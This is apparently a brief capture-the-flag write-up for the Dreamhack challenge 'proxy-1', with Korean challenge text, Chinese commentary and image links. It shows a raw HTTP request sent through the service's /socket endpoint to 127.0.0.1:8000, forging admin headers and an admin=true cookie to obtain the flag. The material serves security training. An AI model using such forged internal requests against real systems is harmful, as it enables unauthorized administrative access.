



# proxy-1

題目：

> Raw Socket Sender가 구현된 서비스입니다.  
> 요구하는 조건을 맞춰 플래그를 획득하세요. 플래그는 flag.txt, FLAG 변수에 있습니다.

`/socket`允許我們連線到任意 IP 和 Port，並傳送自訂的請求內容



根據原始碼給的更改 datd 並填寫到`/socket`



```
POST /admin HTTP/1.1
Host: 127.0.0.1:8000
User-Agent: Admin Browser
DreamhackUser: admin
Cookie: admin=true
Content-Type: application/x-www-form-urlencoded
Content-Length: 12

userid=admin
```


